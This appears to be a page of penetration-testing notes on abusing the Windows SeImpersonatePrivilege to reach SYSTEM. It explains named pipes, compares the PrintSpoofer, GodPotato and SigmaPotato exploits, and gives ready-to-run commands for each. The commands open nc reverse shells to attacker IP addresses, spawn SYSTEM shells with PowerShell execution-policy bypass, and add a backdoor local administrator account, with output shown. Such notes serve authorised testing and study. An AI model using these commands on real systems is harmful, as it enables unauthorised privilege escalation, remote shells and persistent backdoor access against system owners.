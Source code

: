 # SeImpersonatePrivilege

The `SeImpersonatePrivilege` allows a user to operate under another user's security context, typically by impersonating clients via mechanisms like **named pipes** or **RPC**. This privilege is normally assigned to `administrator` accounts and built-in service accounts like `LOCAL SERVICE`, `NETWORK SERVICE`, and `SERVICE`. While rare for standard users, `SeImpersonatePrivilege` is often accessible when gaining code execution through services like **IIS**, which commonly run under accounts that have it.

{% hint style="info" %}
**Named pipes** are a method of **inter-process communication (IPC)** in Windows. They let two separate processes—either on the same system or across a network—**send and receive data** as if they were reading/writing to a file. Think of a named pipe as a **virtual file** that one process (the server) creates and waits on, while another (the client) connects to it using a known name (like `\\.\pipe\mypipe`). Once connected, both processes can exchange data in real time.
{% endhint %}

In the context of **privilege escalation**, named pipes can be abused when a **privileged process connects** to a pipe controlled by a lower-privileged attacker. If the attacker has `SeImpersonatePrivilege`, they can **impersonate the connecting user**, effectively hijacking their permissions.

<table><thead><tr><th width="131.66668701171875">Exploit</th><th>Target Mechanism</th><th>Typical Use Case</th><th>OS Compatibility</th></tr></thead><tbody><tr><td><strong>PrintSpoofer</strong></td><td>RPC/Named Pipes (Print API)</td><td>Fast, reliable on many Windows 10/Server versions</td><td>Windows 10/2016–2019 (some patched)</td></tr><tr><td><strong>GodPotato</strong></td><td>COM Server Hijack</td><td>When PrintSpoofer is patched</td><td>Works on newer/modern Windows (10/11)</td></tr><tr><td><strong>SigmaPotato</strong></td><td>Event Log Service</td><td>When PrintSpoofer and GodPotato fail</td><td>Windows 10+ (better support on newer builds)</td></tr></tbody></table>

## PoCs

{% tabs %}
{% tab title="PrintSpofer" %}
[**PrintSpoofer**](https://github.com/itm4n/PrintSpoofer) is a local privilege escalation exploit that abuses the `SeImpersonatePrivilege` to impersonate the `SYSTEM` account via a named pipe trick. It can be leveraged to sent a reverse shell or execute commands directly:

```powershell
# Reverse shell
PrintSpoofer.exe -c "nc.exe 10.10.13.37 1337 -e cmd"

# Command execution
PrintSpoofer.exe -i -c cmd
```

It can also be used to spawn a `SYSTEM` shell on the desktop, for instance, when logged in via an RDP session:

```powershell
# Check your session ID
C:\TOOLS>qwinsta
 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE
>rdp-tcp           lab-user                  3  Active
 
# Spawn a new shell
C:\TOOLS>PrintSpoofer.exe -d 3 -c "powershell -ep bypass"
```
{% endtab %}

{% tab title="GodPotato" %}
[**GodPotato**](../../../boxes/easy/forest.md) is a local privilege escalation exploit that abuses `COM` and `SeImpersonatePrivilege` to impersonate `SYSTEM` by hijacking privileged tokens via named pipes.

```powershell
# Reverse shell
GodPotato -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.1.102 2012"

# Command execution
GodPotato -cmd "cmd /c whoami"
```
{% endtab %}

{% tab title="SigmaPotato" %}
[**SigmaPotato**](https://github.com/tylerdotrar/SigmaPotato) is a local privilege escalation exploit that leverages the `SeImpersonatePrivilege` and the Event Log service to hijack a `SYSTEM` token through named pipe impersonation.

```powershell
# Reverse shell
./SigmaPotato.exe --revshell <ip_addr> <port>

# Command execution
./SigmaPotato.exe <command>
```

It can be also used to create a new local administrator:

```powershell
> .\sigmapotato.exe "net user dave4 Pass123! /add"
[+] Process Output:
The command completed successfully.


> .\sigmapotato.exe "net localgroup Administrators dave4 /add"
[+] Process Output:
The command completed successfully.

> Get-LocalGroupMember administrators
User        CLIENTWK220\dave4         Local
```
{% endtab %}
{% endtabs %}
